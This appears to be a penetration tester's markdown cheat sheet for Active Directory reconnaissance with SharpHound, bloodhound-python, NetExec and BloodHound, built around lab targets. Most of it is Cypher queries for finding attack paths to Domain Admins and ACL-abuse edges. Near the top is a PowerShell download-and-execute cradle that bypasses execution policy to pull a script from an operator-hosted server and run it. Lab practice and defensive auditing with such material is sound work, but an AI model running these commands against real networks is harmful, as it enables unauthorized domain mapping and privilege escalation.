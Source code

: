 
# Local

## Sharphound

/usr/share/metasploit-framework/data/post/powershell/SharpHound.ps1  
  
### local  
cd /usr/share/metasploit-framework/data/post/powershell/  
python -m http.server 80  
  
### target  
powershell -ep bypass  
IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.180/SharpHound.ps1')  
  
#### Help Page  
Get-Help Invoke-BloodHound  
  
#### Get all info  
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\celia.almeda\Documents\ -OutputPrefix "audit"  
  

# Remote
## Bloodhound-python
```
bloodhound-python -c all -u james -p 'J@m3s_P@ssW0rd!'  -ns 10.10.10.52 -d htb.local --zip

bloodhound-python -c <collection method> -u <username> -p <password>  -ns <dns-server> -d <domain> --zip
```

```bash
nxc ldap 10.1.1.1 -u 'username' -p 'password' --bloodhound --collection ALL --dns-server 10.1.1.1
```
# Bloodhound
  
## local  
sudo neo4j start  
bloodhound  
  
## Raw Queries
### Get all Computers  
```
MATCH (m:Computer) RETURN m
```
  
### Get all Users  
```
MATCH (m:User) RETURN m  
```  
### Find sessions  
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p  
``` 
  
### Shortest path from to high value  
```
MATCH p=shortestPath((u {highvalue: false})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@INFILTRATOR.HTB'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p  
```  
## Other queries  

### Count the distinct users logon sessions on a domain :  
```
MATCH (u1:user)  
WITH count(u1) as totalUsers  
MATCH (c:Computer)-[r:HasSession]->(u2:User)  
RETURN COUNT(DISTINCT(u2))  
```
### Get All computers with their users logon sessions :  
```
MATCH c=(C:Computer)-[r2:HasSession*1]-(U:User)   
WHERE U.name =~ ".*" return c  
```  
### Get computers having a session from usernames like -Y´ADM.*¡ (matching specific OS) :  
```
MATCH p=((S:Computer)-[r:HasSession*1]->(T:User))  
WHERE T.name =~ "ADM.*"  
AND S.operatingsystem =~ ".*XP.*"  
RETURN p  
```  
### Find all Domain Admins :  
```
MATCH (n:Group) WHERE n.objectid =~ "(?i)S-1-5-21-.*-512" WITH n MATCH p=(n)<-[r:MemberOf*1..]-(m) RETURN n,r,m
```

### For all Well-known security identifiers: 
https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows.  
### Find all Domain Admins (nested SID S-1-5-21-.*-512) having a session opened on a domain computer :  

```
MATCH (m:User)-[r:MemberOf*1..]->(n:Group) WHERE n.objectid =~ "(?i)S-1-5-.*-512" WITH m MATCH q=((m)<-[:HasSession]-(o:Computer)) RETURN q  
```
### Show all high value target principals :  
```
MATCH (m {highvalue:true}) RETURN m  
```
### List of unique users with a path to a ´highvalue¡ targets :  
```
MATCH (u:User) MATCH (g {highvalue:true}) MATCH p = shortestPath((u:User)-[r:AddMember|AdminTo|AllExtendedRights|AllowedToDelegate|CanRDP|Contains|ExecuteDCOM|ForceChangePassword|GenericAll|GenericWrite|GpLink|HasSession|MemberOf|Owns|ReadLAPSPassword|TrustedBy|WriteDacl|WriteOwner|GetChanges|GetChangesAll*1..]->(g)) RETURN DISTINCT(u.name) AS USER, u.enabled as ENABLED,count(p) as PATHS order by u.name  
```
### Shortest paths from Domain Users to ´highvalue¡ targets :  
  ```
MATCH p=shortestPath((g:Group {name:"DOMAIN USERS@PHACKT.LOCAL"})-[*1..]->(n {highvalue:true})) WHERE g.objectid ENDS WITH '-513' AND g<>n return p  
  ```
### Find user with a username like ´ADM.*¡ who logged on a computer which has a owned local admin :  
  ```
MATCH c=(U:User {owned:true})-[r:AdminTo*1]-(C:Computer)-[r2:HasSession*1]-(P:User) WHERE P.name =~ "A_.*" return c  
  ```
### Find all edges that a ´specific user¡ has against all the nodes (HasSession is not calculated, as it is an edge that comes from computer to user, not from user to computer) :  
 ``` 
MATCH (n:User) WHERE n.name =~ 'HELPDESK@DOMAIN.GR' MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
 ``` 
### Find all the edges that any UNPRIVILEGED user (based on the admincount:False) has against all the nodes :      

```
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p  
```

### Find interesting edges related to ´ACL Abuse¡ that unprivileged users have against other users :  

```
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p  
```

### Find interesting edges related to ´ACL Abuse¡ that unprivileged users have against computers :  
  
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p  
```

### Find if unprivileged users have rights to add members into groups :   
```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p  
```
  
### Find only the AdminTo privileges (edges) of the domain users against the domain computers :         
```
MATCH p1=shortestPath(((u1:User)-[r1:MemberOf*1..]->(g1:Group))) MATCH p2=(u1)-[:AdminTo*1..]->(c:Computer) RETURN p2  
```
### Find which groups canRDP to computers :  
```
MATCH (n:Group) MATCH (m:Computer) MATCH p=allShortestPaths((n)-[r:CanRDP*1..]->(m)) RETURN p  
 ``` 
 
The canRDP edge runs from a user or a group to a computer and incates that the principals are part of the Remote Desktop Users local group on the target system.  

### Find what groups have local admin rights :             
```
MATCH p=(m:Group)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name  
```  
### Find what users have local admin rights :                
``` 
MATCH p=(m:User)-[r:AdminTo]->(n:Computer) RETURN m.name, n.name ORDER BY m.name  
``` 


### Mark a user as owned :  
```
MATCH (n:User) WHERE n.name STARTS WITH toUpper('brobin') SET n.owned=true RETURN n  
```
### Displays all GPOs :  
```
Match (n: GPO) return n  
```
### Displays all GPOs containing a ´keyword¡ in their name  
```
Match (n: GPO) WHERE n.name CONTAINS "SERVER" return n  
```
### Find if a domain user has some interesting rights on a GPO :  

```
MATCH p = (u: User) - [r: AllExtendedRights | GenericAll | GenericWrite | Owns | WriteDacl | WriteOwner | GpLink * 1 ..] -> (g: GPO) RETURN p LIMIT 25
```